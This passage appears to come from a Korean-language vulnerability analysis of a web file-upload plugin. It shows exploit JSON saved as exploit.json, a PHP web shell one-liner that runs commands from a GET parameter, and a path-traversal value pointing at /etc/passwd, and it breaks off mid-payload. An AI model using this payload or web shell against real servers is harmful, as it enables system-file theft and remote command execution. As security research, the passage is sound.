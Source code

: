 따라서,  앞서 살펴본 ‘임의 파일 읽기’ 취약점과 동일하게 다음의 json 데이터를 Document Root Directory에 저장(`/var/www/html/exploit.json`)합니다.

아래 데이터 중 `wfu_ABSPATH` 의 값은 웹 쉘 코드(`<?php system($_GET['cmd']);?>`)를 PHP Filter Chain 기법을 이용하여 생성한 값 입니다.

```json
 {
    "ticket":"AAAAAAAAAAAAAAAA",
    "type":"normal",
    "filepath":"../../../../../etc/passwd",
    "handler":"dboption",
    "expire":9999999999,
```